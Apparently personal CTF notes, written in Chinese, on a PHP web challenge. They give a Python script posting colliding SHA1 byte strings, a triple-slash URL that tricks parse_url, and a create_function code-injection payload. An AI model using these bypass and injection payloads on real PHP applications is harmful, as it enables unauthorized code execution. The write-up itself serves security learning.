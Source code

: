 # 思路
	- F12, [MD5绕过]([[CTFWEB/MD5]]), SHA1绕过, parse_url绕过
- # SHA1绕过
	- 使用两个不同但是SHA1相同的字符串即可
	- ```python
	  def urldecode_to_bytes(s):
	      b = b""
	      while s:
	          if s[0] != "%":
	              c, s = s[:1], s[1:]
	              b += c.encode()
	          else:
	              c, s = s[:3], s[3:]
	              b += bytes([int(c[1:], 16), ])
	      return b
	  array1=urldecode_to_bytes("%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1")
	  array2=urldecode_to_bytes("%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1")
	  
	  r = requests.post(url, 
	  data={
	      "array1": array1,
	      "array2": array2
	  })
	  print(r.text)
	  ```
- # parse_url绕过
	- [参考](((645dbc96-bb3a-4052-8764-5d425ac10179)))
	- parse_url在解析形如`http://xxx.com///index.php?id=1`的URL的时候会出错
	- payload: ``http://node2.anna.nssctf.cn:28337///level_level_4.php?NI_SA_=txw4ever``
- # 特殊的动态函数调用
	- fuzz发现`\create_function`字符串可以和`create_function`字符串一样调用`create_function`函数
	- payload
		- ```python
		  r = requests.get(url, 
		  params={
		      "a": "\\create_function",
		      "b": "}echo 114514;//"
		  })
		  print(r.text)
		  ```